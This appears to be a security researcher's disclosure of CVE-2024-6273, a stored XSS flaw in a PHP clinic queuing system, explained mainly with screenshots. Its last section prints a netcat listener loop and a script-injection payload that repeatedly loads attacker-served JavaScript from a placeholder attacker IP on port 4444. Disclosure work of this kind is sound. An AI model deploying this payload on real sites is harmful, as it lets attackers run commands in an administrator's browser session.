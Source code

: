 # CVE-2024-6273 : Stored Cross Site Scripting by an Unauthenticated User

**Researcher Name:** Guru Raghav Saravanan

**Product:** Clinic Queuing System using PHP and SQlite3 v1.0 (SourceCodester)

**Vulnerability:** Stored Cross Site Scripting by an Unauthenticated User

**POC:**
The vulnerability is present in **patient_side.php**. The input fields Full Name, Contact and Address does not sanitize the user input which leads to Stored Cross Site Scripting.

The **save_patient()** function in **master.php** does not sanitize the input before saving.

**patient_side.php**

![patient_side.php](assets/CVE-2024-6273/pic0.png "patient_side.php")

**master.php**

![master.php](assets/CVE-2024-6273/pic1.png "master.php")

Endpoint: https://<vulnerable_site>/patient_side

![patient_form](assets/CVE-2024-6273/pic2.png "patient_form")

Clicking on Submit, the form is submitted to the administrator and can only be viewed by the admin.

![patient_form](assets/CVE-2024-6273/pic3.png "patient_form")

![patient_form](assets/CVE-2024-6273/pic4.png "patient_form")

Now to view the submitted form, login as admin and click on the reports section.

![Report](assets/CVE-2024-6273/pic5.png "Report")

![Report](assets/CVE-2024-6273/pic6.png "Report")

![Report](assets/CVE-2024-6273/pic7.png "Report")

All the stored XSS gets executed…

**Leveraging reverse_connection:**

**Payload:**
**Attacker-Side:** `while :; do printf "sgr>$ "; read c; echo $c | nc -vvlp 4444 >/dev/null; done` 

**Victim-Side:** `"><script>setInterval(function(){d=document;z=d.createElement("script");z.src="//<attacker-ip>:4444";d.body.appendChild(z)},0)</script>`

![shell](assets/CVE-2024-6273/pic8.png "shell")

Start the listener

![payload](assets/CVE-2024-6273/pic9.png "payload")

Visit the reports page now…

![Report](assets/CVE-2024-6273/pic10.png "Report")

Reverse connection received in the attacker machine.

![Report](assets/CVE-2024-6273/pic11.png "Report")
